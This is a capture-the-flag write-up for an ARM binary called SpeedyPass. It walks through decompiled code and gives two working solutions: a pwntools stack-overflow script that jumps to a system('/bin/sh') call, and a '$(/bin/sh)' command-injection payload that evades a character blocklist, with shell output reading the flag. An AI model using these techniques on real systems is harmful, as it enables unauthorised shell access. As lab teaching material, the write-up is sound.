

# SpeedyPass

### System (ARM)

SpeedyPass is a simple password strength checking service. The challenge provides the [binary](speedypass_161d3241ce42317cbff2b0db5e89c0bb) for the application. The goal is to get a shell and read the flag.




The challenge was 32-bit ARM binary, so we load it up in IDA Pro.

```c++
int __cdecl main(int argc, const char **argv, const char **envp)
{
  setbuf((FILE *)_bss_start, 0);
  setbuf((FILE *)stdout, 0);
  banner();
  if ( check() )
  {
    puts("Good password!");
    win(1337);
  }
  else
  {
    puts("Bad password!");
  }
  return 0;
}
```

The `main` function looks pretty simple. Once it prints out the banner, the program checks for the password and prints corresponding messages. If a given password was a good password, it also calls `win` function with an argument of `1337`.

```c++
void __fastcall win(int a1)
{
  if ( a1 == 0x13333337 )
    system("/bin/sh");
  else
    puts("But not 1337 enough! :P");
}
```

The `win` function checks if the argument is same as `0x13333337` and if so, drops a shell. However, because the `win` function call from `main` function has `1337` hard-coded, which makes this impossible.

The `check` function prompts for a password and reads in the input. After some validation via `validate` function, the program invokes a command that runs `./checker.py` python script and passes in the password.

```c++
bool check()
{
  char s[64]; // [sp+4h] [bp-50h]
  ssize_t v2; // [sp+4Ch] [bp-8h]
  char v3[4]; // [sp+50h] [bp-4h]

  memset(s, 0, 64u);
  printf("password> ");
  v2 = read(0, s, 0x64u);
  if ( v2 && v3[v2 - 77] == '\n' )
    v3[v2 - 77] = 0;
  if ( tolower((unsigned __int8)s[0]) == 'q' && strlen(s) == 1 )
  {
    puts("Bye!");
    exit(0);
  }
  validate(s);
  snprintf(cmd, 0x800u, "./checker.py \"%s\"", s);
  return (system(cmd) & 0xFF00) >> 8 == 1;
}
```

The `validate` function takes a string and ensures the following:

* The first and last character of the string are alphanumeric.
* Any spaces are removed from the string.
* "Dangerous" characters and strings are blocked.
  * ``, ", \n, \r, |, #, ;, &, flag`

The python script checks for certain rules for the password.

```python
#!/usr/bin/env python
import sys
s = sys.argv[1]
# Palindrome check
xc = int(s == s[::-1])
# Length check
xc &= int(len(s) > 8)
# Unique character check
xc &= int(len(set(s)) > 1)
sys.exit(xc)
```


#### Vulnerability #1 (Stack Buffer Overflow)

There is a trivial stack buffer overflow in `check` function. The buffer size is only 64 bytes, but the program reads in 0x64 (100) bytes. By overflowing the buffer and eventually the return address, we can control the `pc`.

If we overwrite the `pc` with the address of the code right before the `system("/bin/sh")`in `win` function, we can get the shell.


```python
#!/usr/bin/env python
from pwn import *
r = remote('speedhack.theori.io', 14729)
r.sendline('A' * 80 + p32(0x106f4))
r.interactive()
```

```
$ cat flag
your_password_is_not_s3cure
```


#### Vulnerability #2 (Command Injection)

Various filtering and validation implies that there was an attempt at preventing command injection. When `./checker.py` is invoked, the argument is user-controllable. We can inject shell commands by using `$()`. By evading all filtered characters and strings, we can get a shell and eventually read the flag.

```
======= Speed Pass =======
 - Type Q to quit...
 - Length > 8
 - Contain >= 2 unique letters
==========================
password> a$(/bin/sh)a
ls >&2
checker.py
flag
run.sh
speedypass

cat flag >&2
your_password_is_not_s3cure
```

